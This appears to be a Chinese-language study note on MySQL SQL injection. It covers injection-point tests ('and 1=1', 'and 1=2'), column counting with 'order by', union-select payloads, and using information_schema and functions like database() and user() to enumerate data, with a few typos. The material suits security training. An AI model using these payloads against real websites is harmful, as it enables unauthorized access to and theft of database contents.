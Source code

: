 
# SQL #


![](./img/20220417132723.png)

## MySQL注入 ###
![](img/20220417141520.png)

![](img/SQL002.png)



## 1.基本命令 ###

在phpstudy的安装的目录下的MySQL的文件夹的位置



进入/bin文件夹


在此处打开cmd命令


输入

	mysql.exe -u root -p

输入数据库密码进入mysql数据库


### 命令


+ `show databases`;&nbsp;&nbsp;显示mysql中所有数据库的名称。


+ `use ***`  使用某某数据库

+ `SELECT * FROM users WHERE id=1 LIMIT 0,1`;

+ `show tables`；&nbsp;&nbsp;显示当前数据库中所有表的名称


## 2.可以注入的条件</p> ###

![](img/20220417135608.png)

+ 可控变量

> id值为可控的变量
> 
>![](./img/20220417140508.png)定义id变量
>
>$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
>
>id=$id  
>查找的位置为变量
>



+ 带入数据库查询

> 语句拼接后存在查询以及下一步的操作


+ 变量未存在过滤或不严谨




# 开始

 


## 1.注入点的判断 ##
##### 方法一：
and 1=1  正常

and 1=2  错误

![](img/20220417143029.png)

![](img/20220417143047.png)

![](img/20220417143132.png)

则该处存在注入点

##### 方法二：


`select * from users where id=1 limit 0,1 `
正常

`select * from users where id=1asdfgh limit 0,1`
 异常

则id存在注入点


<hr>

##### 方法一：

    `?id=1 and 1=1`
    `?id=1 and 1=2`
页面出现不同的情况且and 1=2 出现错误

存在注入点



##### 方法二
    `?id=1fbjksdfh`
在后面输入错误的字符，页面发生变化
则存在注入点


## 2.判断注入 ##
### 猜解列名数量（字段数）

    order by x 

错误与正常的正常值

> .php/?id=1 order by 1
> 
> .php/?id=1 order by 2
> 
> .php/?id=1 order by 3
> 
> .php/?id=1 order by 4


### 报错猜解准备
> .php/?id=1 union select 1,2,3,4

> .php/?id=-1 union select 1,2,3,4
>     
    id=-1 and 2=3






## 3.信息收集
- 数据库版本
    `version()`

- 数据库名字
 `database()`

- 数据库用户
`user()`
- 操作系统 
   `@bersion_compile_os`






#### 备注： ####

  1.在MySQL5.0以上版本的数据库中，mysql自带一个数据库名 `information_schema` 是一个存储记录所有的数据库名，表名，列名的数据库

可以通过他查询获取指定数据库下面的表名和列名信息

2.
数据库中

	.
	
代表下一级

例如
*xiao.user 代表xiao数据库下的usesr表名、
user.bge  代表user表下面的列名*


### 重要的信息 

1. 记录所有的表名的表

	`information_schema.tables`

1. 记录所有的列名的表
	`information_schema.columns`
1. 表名

	`table_name`

1. 列名 

	`column_name`
 
 



![](img/20220421194006.png)
 


数据注入
<hr>  
 
### root与非root的情况 ####

MySQL数据库A
MySQL数据库B
MySQL数据库C

**MySQL数据库D = 网站D =数据库用户D
→** 
> 1. **表名**
> 1. **列名**
> 1. **数据**

**
*数据库D = 网站D =数据库用户D***
若将网站部署在root用户上

root 注入点

则A网站出现漏洞时，则其他网站也能受到攻击

跨站注入

记录数据库名

`informmation_schema` 








获取所有的数据库名
  





# 合天网安 #

![](img/SQL001.png1)




